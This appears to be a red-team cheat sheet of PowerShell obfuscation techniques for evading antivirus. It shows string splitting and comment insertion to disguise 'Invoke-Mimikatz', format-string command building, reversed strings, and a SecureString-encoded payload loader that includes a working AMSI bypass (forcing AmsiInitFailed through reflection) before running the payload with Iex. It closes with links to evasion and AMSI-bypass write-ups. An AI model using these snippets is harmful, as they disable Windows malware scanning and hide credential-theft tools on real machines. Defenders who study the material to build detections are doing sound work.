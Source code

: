 ```yaml
---
author(s):
  - Userware
tags: []
---
```

# PowerShell

## 01 - String Concatenation

```
PS C:\> "Invoke-" + "Mimikatz"
```

## 02 - Insert Comments

```
PS C:\> "Invoke-" <#inserting comment#> + "Mimikatz"
```

## 03 - Abstract Syntax Tree (AST)

```
PS C:\> Get-Command -name ("{1}{2}{0}{3}" -f "-Proces", "G", "et", "s")

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Get-Process                                        7.0.0.0    Microsoft.PowerShell.Management
```

## 04 - Encrypted Strings

```
$secureString = ConvertTo-SecureString -String '<payload>' -AsPlainText -force
$encoded = ConvertFrom-SecureString -k (0..15) $secureString > output.txt

$encoded = <encoded payload>
$Ref = [REF].Assembly.GetType('System.Management.Automation.AmsiUtils’);
$Ref.GetField(‘AmsiInitFailed','NonPublic,Static’).SetValue($null, $true);
$credential = [System.Management.Automation.PSCredential]::new("tim",(ConvertTo-SecureString -k (0..15)
$encoded))
Iex $credential.GetNetworkCredential().Password
```

## 05 - Reverse Strings

```powershell
function ReverseString($inputString) {
	$charArray = $inputString.ToCharArray()
	$reversedArray = $charArray[-1..-($charArray.Length)]
	$reversedString = -join $reversedArray
	return $reversedString
}

Write-Output ReverseString("Reversed String.")
```

---
## References

### Daniel Bohannon

- [Daniel Bohannon: PowerShell Execution Argument Obfuscation (& How It Can Make Detection Easier!)](https://www.slideshare.net/slideshow/invokeobfuscation-derbycon-2016/66405101)

### Huebicode

- [huebicode: Powershell Obfuscation](https://huebicode.com/blog/powershell-obfuscation.html)

### t3l3machus

- [t3l3machus: Powershell Obfuscation Bible](https://github.com/t3l3machus/PowerShell-Obfuscation-Bible)

### gh0x0st

- [gh0x0st: Layer 0 Obfuscation](https://github.com/gh0x0st/Invoke-PSObfuscation/blob/main/layer-0-obfuscation.md)

### r00t 3xp10it

- [r00t-3xp10it: Simple Obfuscation](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/simple_obfuscation.md)

### Bordergate

- [Bordergate: Obfuscating Command Line Arguments](https://www.bordergate.co.uk/obfuscating-command-line-arguments/)

### Onlyf8

- [onlyf8: Powershell and Obfuscation](https://onlyf8.com/powershell-obfuscationEN)

### Offensive Security

- [Offensive Security: PowerShell Obfuscation](https://www.offensive-security.com/offsec/powershell-obfuscation/)

### klezvirus

- [klezvirus: Chameleon Born From a Chimera](https://klezvirus.github.io/RedTeaming/AV_Evasion/BornFromAChimera/)

### Jorge Lajara

- [Jorge Lajara: Powershell AV Evasion. Running Mimikatz with PowerLine](https://jlajara.gitlab.io/Mimikatz-AV-Evasion)

### geoda

- [geoda: Running an Obfuscated version of Mimikatz in Memory to bypass AntiVirus and other host based controls](https://blog.geoda-security.com/2018/05/running-obfuscated-version-of-mimikatz.html)

### Digital Whisper

- [Digital Whisper: Fileless Attacks Part 2](https://www.digitalwhisper.co.il/files/Zines/0x8E/DW142-1-FilelessAttacks_Part2.pdf)

### CTFIoT

- [CTFIoT: Bypassing Windows Defender](https://www.ctfiot.com/112423.html)

### Dennis Chow

- [Dennis Chow: Fun with PowerShell Payload Execution and Evasion](https://medium.com/swlh/fun-with-powershell-payload-execution-and-evasion-f5051fd149b2)

### Hacking Articles

- [Hacking Articles: A Detailed Guide on AMSI Bypass](https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/)

### Debugging AMSI Function

- [Winslow Blog: Bypass AMSI On Windows 11](https://winslow1984.com/books/red-team/page/bypass-amsi-on-windows-11)

### Wietze Beukema

- [Wietze Beukema: PowerShell Obfuscation using `SecureString`](https://www.wietzebeukema.nl/blog/powershell-obfuscation-using-securestring)